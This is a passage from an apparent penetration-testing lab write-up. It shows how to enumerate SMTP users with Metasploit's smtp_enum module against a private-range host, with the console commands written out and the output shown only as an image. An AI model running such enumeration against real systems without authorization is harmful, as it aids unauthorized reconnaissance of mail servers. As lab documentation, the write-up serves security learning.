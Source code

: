 1. **User Enumeration Vulerability** By futher searching we find that we had a enummeration module in the metasploit framework which **identifies the user's** in the smtpd service by bruteforcing request with a wordlist.

### Exploitation
We can't find a well known vulnerability in the smtpd service to exploit but there is flaw that allow as to enumerate the smtp user's using the smtpd service on the target machine.
```
msfconsole
msf > search smtp_enum
msf > use auxiliary/scanner/smtp/smtp_enum
msf auxiliary(scanner/smtp/smtp_enum) > options
msf auxiliary(scanner/smtp/smtp_enum) > set RHOSTS 192.168.1.103
msf auxiliary(scanner/smtp/smtp_enum) > exploit
```
output:
![](../images/smtp_users_enum_exploitation.png)